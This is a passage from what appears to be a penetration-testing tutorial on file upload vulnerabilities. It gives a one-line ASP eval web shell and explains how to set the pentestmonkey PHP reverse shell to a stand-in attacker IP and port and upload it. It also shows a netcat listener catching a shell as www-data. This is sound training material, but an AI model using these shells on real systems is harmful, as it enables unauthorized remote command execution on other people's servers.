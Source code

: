 This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

```asp
<% eval request('cmd') %>

```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

* * *

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS

```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

```shell
nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

